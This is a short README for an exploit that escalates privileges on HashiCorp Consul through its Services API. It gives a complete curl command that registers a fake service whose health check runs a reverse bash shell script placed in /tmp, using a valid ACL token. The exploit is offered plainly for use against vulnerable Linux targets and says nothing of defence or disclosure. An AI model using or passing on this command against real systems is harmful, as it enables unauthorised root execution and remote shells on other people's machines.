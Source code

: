 # Hashicorp-Consul-Privilege-Escalation-via-Services-API_ACL-Token
Local or remote privilege escalation for Hashicorp Consul via Services API & ACL Token

Shell command that can be run locally to perform privilege escalation on a vulnerable Linux target if not accessible remotely for one reason or another (Firewall Rule, Only running locally). It could also be used remotely, but there's better exploits out there such as metasploit to do that... but it can be done.

# How-To: 

1.There is a shell.sh file included that contains a reverse bash shell that can be modified, or, replace the command all together with your own. Place or create your own shell.sh in (recomended) /tmp directory. 

2. Run the following command:

curl --header "X-Consul-Token: #<REPLACE_WITH_YOUR_ACL_TOKEN_HERE>#" --request PUT -d '{"ID": "LPE", "Name": "LPE", "Address": "127.0.0.1", "Port": 80, "check": {"Args": ["/bin/bash", "/tmp/bash_shell.sh"], "interval": "30s", "timeout": "100000s"}}' http://127.0.0.1:8500/v1/agent/service/register

Prerequisites: Hashicorp Consul running, Knowledge of or way to obtain a valid ACL Token.

 
